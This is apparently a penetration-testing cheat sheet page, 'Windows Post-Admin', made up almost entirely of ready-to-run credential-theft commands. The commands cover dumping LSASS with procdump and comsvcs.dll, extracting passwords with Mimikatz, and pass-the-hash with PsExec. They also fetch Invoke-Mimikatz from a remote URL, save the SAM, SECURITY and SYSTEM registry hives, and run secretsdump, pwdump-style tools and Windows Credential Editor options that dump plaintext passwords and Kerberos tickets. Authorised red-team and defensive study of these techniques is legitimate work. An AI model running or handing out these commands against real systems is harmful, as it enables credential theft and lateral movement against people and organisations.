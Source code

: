```yaml
---
layout: default
title: Windows Post-Admin
parent: Post-Admin/Root
---
```


# Windows Post-Admin
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Mimikatz
### Offline
Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

Extract Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```

### On Target Machine (PowerShell Version) 
Get script onto target machine ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose                               # In-memory
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose  # Save to disk
```

Extact passwords, etc.
```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

---

## Registry Dump
Dump SAM, SECURITY and SYSTEM registry hives
```powershell
reg.exe save hklm\sam <output path>
reg.exe save hklm\security <output path>
reg.exe save hklm\system <output path>
```

Dump hashes on local machine
```shell
secretsdump.py -sam <sam> -security <security> -system <system> LOCAL  # Impacket
samdump2 <system> <sam>
```

## FGDump/PWDump
Dump hashes from `lsass` on the target machine
```shell
fgdump.exe
python pydump.py
pwdump7.exe
```

## Windows Credential Editor (WCE)
```shell
wce{32|64}.exe -l             # List current sessions & NTLM creds (default)
wce{32|64}.exe -r             # List current sessions & NTLM creds indefinitely
wce{32|64}.exe -e             # List current sessions & NTLM creds every time a logon event occurs
wce{32|64}.exe -s <NTLM>      # Change NTLM creds of current session
wce{32|64}.exe -c <NTLM>      # Run in new session with specified NTLM creds
wce{32|64}.exe -i <LUID>      # Specify LUID to use for current session
wce{32|64}.exe -d             # Delete NTLM creds from current session
wce{32|64}.exe -a <addresses> # Use addresses to read sessions and NTLM creds from memory (from GETLSASRVADDR.EXE)
wce{32|64}.exe -f             # Force 'safe mode'
wce{32|64}.exe -g             # Generate LM & NT hash
wce{32|64}.exe -K             # Dump Kerberos tickets to file
wce{32|64}.exe -k             # Read Kerberos tickets from file and insert into Windows cache
wce{32|64}.exe -w             # Dumps plaintext passwords
```
- `-o <file>` outputs to file
- <https://github.com/returnvar/wce>